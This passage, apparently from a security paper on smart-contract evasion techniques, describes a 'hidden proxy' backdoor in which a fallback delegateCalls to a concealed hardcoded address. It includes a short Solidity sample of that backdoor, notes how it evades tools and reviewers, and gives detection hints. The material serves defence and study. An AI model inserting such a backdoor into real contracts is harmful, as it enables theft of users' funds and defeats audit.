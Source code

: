 These techniques reroute the execution flow from legitimate functions to
hidden and malicious code.

### Hidden Proxy

#### Overview

Here, the contract advertises functionalities through its sources but
actually redirects to another contract.

One common way to achieve this is to performs `delegateCall` on any
unknown selector, via the fallback.

The exposed functionalities are not meaningful, the logic is located at
a seemingly unrelated & hidden address.

The target address can be hardcoded or passed as an argument, making it
stealthier.

#### Evasion Targets

This technique stacks another layer of evasion on top those mentioned in
[3.1](#sec:hiding-in-plain-sight){reference-type="ref"
reference="sec:hiding-in-plain-sight"}:

tools

:   testing visible code does not bring out the malicious part

reviewers

:   the proxy address may not even be in the byte / source code

#### Samples

A malicious fallback can be inserted into an expensive codebase:

``` {.Solidity language="Solidity"}
fallback () external {
	if (msg.sender == owner()) {
		(bool success, bytes memory data) = address(0x25B072502FB398eb4f428D60D01f18e8Ffa01448).delegateCall(
			msg.data
		);
	}
}
```

#### Detection & Countermeasures

In addition to the sources & indicators mentioned in
[3.1](#sec:hiding-in-plain-sight){reference-type="ref"
reference="sec:hiding-in-plain-sight"}:

history

:   the hidden proxy address can be found in the trace logs

